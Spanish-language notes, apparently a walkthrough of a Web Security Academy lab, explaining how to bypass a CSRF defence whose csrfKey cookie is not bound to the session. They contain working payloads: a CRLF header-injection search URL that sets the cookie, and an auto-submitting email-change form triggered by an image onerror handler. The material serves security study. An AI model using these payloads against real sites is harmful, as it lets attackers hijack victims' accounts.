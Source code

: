 En esta clase continuamos con la explotación de sistemas con defensas CSRF mal implementadas. El servidor emplea una cookie llamada ‘**csrfKey**‘ junto al token CSRF, pero esta cookie no está ligada a la sesión del usuario, por lo que es posible inyectarla en el navegador de la víctima aprovechando la funcionalidad vulnerable del buscador.

El ataque se desarrolla en dos fases:

- Inyección de la cookie ‘**csrfKey**‘ en el navegador víctima mediante una URL de búsqueda que fuerza al servidor a emitir un encabezado ‘**Set-Cookie**‘ reflejado.
- Envío del formulario CSRF con el token correspondiente, haciendo uso de la cookie previamente establecida.

Gracias a esto, conseguimos alterar la dirección de correo de la víctima sin que el servidor lo detecte como una acción ilegítima.

Este escenario demuestra cómo incluso mecanismos aparentemente robustos pueden ser burlados cuando no se integran correctamente con la lógica de sesión.

Solucion
Como veiamos en la otra imagen nosotro teniamos un SET-Cookie en la parte del send asi que lo que nosotros podriamos hacer es hacer un salto de lienar para obtener otro nuevo SET-COOKIE para ello en el codigo ascii podemos ver eso
![Pasted_image_20250723201619.png](/Imagenes/Pasted_image_20250723201619.png)

asi que vamos a pasar esto para cambiarlo
(/?search=hola%20Set-Cookie:%20csrfKey=a )
![Pasted_image_20250723201727.png](/Imagenes/Pasted_image_20250723201727.png)
asi que esto no lo vamos a llevar a decoder y ahi vamos a darle decoder y le ponemos URL y vamos agregar lo siguiente
(/?search=hola%0D%0ASet-Cookie:%20csrfKey=a) tuvimos que eliminar el %20 despues del hola
![Pasted_image_20250723202139.png](/Imagenes/Pasted_image_20250723202139.png)
ahora lo vamos a suplantar por lo que teniamos  asi que podemos ver que si funciona el cambio
![Pasted_image_20250723202613.png](/Imagenes/Pasted_image_20250723202613.png)
con todo obtenido vamos a obtener nuestro payload
lo primero copiamos el formulario
![Pasted_image_20250723202931.png](/Imagenes/Pasted_image_20250723202931.png)
y en este caso vamos a cargar una imagen 
(<form class="login-form" name="change-email-form" action="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/my-account/change-email" method="POST">                          
    <input type="hidden" name="email" value="hola@tenso.com">
    <input required="" type="hidden" name="csrf" value="myxrfjEOa56IEtZMnXN2y8zGACc33wuI">
</form>

<img src="https://0ab7002204eeb8ac820e6b560025005f.web-security-academy.net/?search=/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20SameSite=None" onerror="document.forms[0].submit()">)
![Pasted_image_20250723204922.png](/Imagenes/Pasted_image_20250723204922.png)

basicamente en el primer csrf ponemos esto del wiener
![Pasted_image_20250723205010.png](/Imagenes/Pasted_image_20250723205010.png)
y en el segundo ponemos esto 
![Pasted_image_20250723205036.png](/Imagenes/Pasted_image_20250723205036.png)
pero aqui le vamos agregar algo (/?search=hola%0D%0ASet-Cookie:%20csrfKey=iS9jYVco7XUk75csWMItrW4mpMoqQue8%3b%20 SameSite=None)
![Pasted_image_20250723205116.png](/Imagenes/Pasted_image_20250723205116.png)


